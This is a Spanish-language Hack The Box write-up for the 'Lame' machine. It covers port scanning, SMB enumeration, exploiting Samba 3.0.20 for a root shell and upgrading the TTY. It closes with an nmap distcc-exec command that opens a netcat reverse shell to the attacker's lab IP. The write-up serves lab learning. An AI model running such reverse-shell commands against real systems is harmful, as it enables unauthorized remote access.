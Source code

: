 # Lame

Máquina **Lame** de dificultad **Easy**.

![](../../.gitbook/assets/htb\_lame.png)

## Enumeración

Primeramente realizamos un escaneo nmap rápido para averiguar los puertos abiertos.

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

![](../../.gitbook/assets/nmap\_1.png)

Vemos que tenemos abiertos los puertos 21, 22, 139, 445 y 3632. Realizamos ahora un escaneo mas completo a estos puertos para averiguar versiones y demás.

```
sudo nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```

![](../../.gitbook/assets/nmap\_2.png)

| Puerto | Servicio | Versión                  | Observaciones                     |
| ------ | -------- | ------------------------ | --------------------------------- |
| 21     | ftp      | vsftpd 2.3.4             | Permite acceso anónimo            |
| 22     | ssh      | OpenSSH 4.7p1            |                                   |
| 139    | smb      | Samba smbd 3.x-4-x       | No se determina la versión exacta |
| 445    | smb      | Samba smbd 3.0.20-Debian |                                   |
| 3632   | distccd  | distccd v1 4.2.4         |                                   |

Realizamos a continuación un reconocimiento para cada puerto.

### Reconocimiento FTP

Vemos que tenemos acceso anonimo. Vamos a ver si podemos obtener información y si tenemos permiso de escritura.

![](../../.gitbook/assets/ftp.png)

Vemos que no obtenemos ficheros ni podemos escribir con el usuario anónimo. De momento dejamos este servicio.

### Reconocimiento SMB

Enumeramos en detall el servicio SMB. Realizamos una enumeración utilizando **crackmapexec, smbmap y smbclient**.

![](../../.gitbook/assets/smb\_1.png)

Comprobamos con **crackmapexec** que es una máquina Unix de nombre  **LAME** y dominio **hackthebox.gr.**

Comprobamos con **smbmap** que existen vatios recursos compartidos, entre ellos **tmp** con permisos de escritura. Nos conectamos con **smbclient** a tmp pero no obtenemos mucho.

Comprobamos si existe algún exploit para esta versión de **SMB**.

![](../../.gitbook/assets/google\_1.png)

Vemos que hay varios. Vamos a intentar explotar esta vía.

## Explotación

Revisamos el script que hemos encontrado y vemos que nos indica como usarlo.

![](../../.gitbook/assets/exploit.png)

Nos descargamos el script y lo lanzamos como se nos indica. Previamente nos ponemos a la escucha por el puerto 443.

![](../../.gitbook/assets/explotacion.png)

Comprobamos que nos hemos conectado y que estamos en la maquina objetivo como **root**.

No tenemos pues que escalar privilegios. Hacemos un tratamiento de la tty con la siguiente secuencia de comandos:

```
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189
```

A continuación obtenemos las flags de user y de root.

![](../../.gitbook/assets/explotacion2.png)

Y damos la máquina por terminada.

## Otras formas de explotación

### Con SMBCLIENT

Buscamos exploit con searchexploit y encontramos uno de metasploit.&#x20;

![](../../.gitbook/assets/msf.png)

Lo examinamos y vemos que lanza un comando como username anteponiendo **nohup** en el usuario y ademas tiene que ser SBMv1.

![](../../.gitbook/assets/exp\_msf.png)

Podemos entonces lanzar lo mismo con smbclient.

![](../../.gitbook/assets/explotacion3.png)

### Explotando DISTCCC puerto 3632

Buscamos en Google "distccc exploit" y observamos que aparece en **hacktricks**.

![](../../.gitbook/assets/hacktricks.png)

Probamos con nmap como nos indica el articulo. En el comando ponemos la shell inversa.

```
nmap -p3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc 10.10.14.31 443 -e /bin/sh'"
```

